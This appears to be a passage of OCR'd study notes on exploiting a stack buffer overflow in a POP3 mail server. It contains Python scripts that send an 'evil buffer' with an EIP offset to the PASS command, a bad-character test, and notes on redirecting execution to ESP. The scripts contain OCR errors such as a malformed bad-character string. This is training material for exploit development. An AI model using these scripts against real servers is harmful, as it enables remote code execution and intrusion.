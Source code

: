 ```python
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

This will increase the space we can use. (424 bytes)

Metasplot has a shellcode generator

### Bad Characters

There may be certain characters that are considered bad and shouldn't be used in shellcode.

* NULL byte opcode - hex 00
  * also used to terminate a string copy operation

* CR return character - hex 0D

* LF line feed - hex 0A

Send 00 - FF to test for bad Characters

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

badchars = (""\x01\x02\x03...\xff")

#buffer = "A" * 2606 + "B" * 4 + "C" * (3500-2606-4)
buffer = "A" * 2606 + "B" * 4 + badchars

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

Look at memory location at ESP

* OA causes problem so we remove it

Now we find 00 and 0D causes an issue as well

### Redirecting Execution

Try to get the EIP to point to ESP
